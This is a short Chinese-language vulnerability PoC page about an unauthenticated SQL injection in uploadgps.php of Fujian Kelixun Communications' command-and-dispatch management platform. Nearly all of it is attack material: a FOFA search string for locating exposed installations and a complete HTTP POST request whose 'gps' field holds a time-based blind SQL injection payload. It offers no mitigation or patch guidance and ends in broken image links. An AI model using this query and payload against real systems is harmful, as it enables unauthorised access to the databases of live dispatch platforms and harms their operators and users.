 ## 福建科立讯通信有限公司指挥调度管理平台uploadgps.php存在SQL注入漏洞



福建科立讯通信有限公司指挥调度管理平台uploadgps.php存在SQL注入漏洞，未经身份验证的远程攻击者可以利用SQL注入漏洞获取数据库中的信息。

## fofa



```
body="指挥调度管理平台"
```

​    

## poc



```
POST /api/client/task/uploadgps.php HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

uuid=&gps=1'+AND+(SELECT+7679+FROM+(SELECT(SLEEP(5)))ozYR)+AND+'fqDZ'='fqDZ&number=
```

​    ![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727103672149-954231e5-a465-459b-82ab-e92eb79b760c.png![image-20240925210907714](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925210907714.png)

